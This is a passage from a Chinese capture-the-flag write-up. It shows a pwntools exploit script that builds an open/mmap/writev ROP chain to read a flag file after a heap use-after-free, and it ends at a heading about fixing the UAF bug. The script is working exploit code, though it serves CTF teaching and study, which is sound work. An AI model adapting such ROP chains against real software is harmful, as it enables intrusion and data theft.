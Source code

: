    ```python
   add(p64(0) + p64(0x10)) #16
   
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x9D0
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # # read(3,heap+0x1010,0x30) 
   # orw+=p64(pop_rdi_ret)+p64(3)
   # orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   # orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   # orw+=p64(read_addr)     
   
   
   orw += p64(pop_rdi_ret) + p64(heap_addr&0xffffffffffff0000)     # 映射的地址按0x10000对齐
   orw += p64(pop_rsi_ret) + p64(0x1000)
   orw += p64(pop_rdx_ret) + p64(1)
   orw += p64(pop_rcx_rbx_ret) + p64(1) + p64(0)
   orw += p64(pop_r8_ret) + p64(3)                 # 映射文件的文件描述符
   orw += p64(libc_base + libc.sym['mmap'])
   
   # # write(1,heap+0x1010,0x30)
   # orw+=p64(pop_rdi_ret)+p64(1)
   # orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)     # 从地址 读出flag
   # orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   # orw+=p64(write_addr)
   # orw+=b"./flag\x00"
   
   orw += p64(pop_rdi_ret) + p64(1)
   orw += p64(pop_rsi_ret) + p64(flag+8)
   orw += p64(pop_rdx_ret) + p64(1)                # 表示一个内存区域
   orw += p64(libc_base + libc.sym['writev'])
   orw += b"./flag\x00\x00" + p64(heap_addr&0xffffffffffff0000) + p64(0x30)    #映射的地址 和 输出长度
   
   add(orw)     #17 unsorted bin
   p.sendlineafter(b'>','1')     #18 触发
   p.interactive()
   ```


![image-20240908215246684](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409082152775.png)

## 如何修复UAF漏洞
